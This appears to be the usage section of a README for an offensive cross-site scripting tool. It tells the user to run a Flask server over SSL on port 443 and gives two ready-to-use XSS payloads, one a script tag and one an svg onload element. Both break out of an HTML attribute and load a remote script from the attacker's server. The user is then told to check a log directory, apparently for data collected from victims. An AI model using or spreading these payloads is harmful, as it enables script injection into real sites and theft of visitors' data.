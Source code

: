 
### usage
* requires python 3 and flask

```bash
sudo apt update && sudo apt install -y python3-flask
```

* put ssl files in project (cert.pem, key.pem)

* run on your server:

```bash
sudo python3 server.py 443
```

* load this script with an xss:
```html
'"><script/src="https://yourserver/s.js"></script>
```
* alternatively:
```html
'"><svg/onload=body.appendChild(document.createElement`script`).src="https://yourserver/s.js">
```

* see the files in the log directory

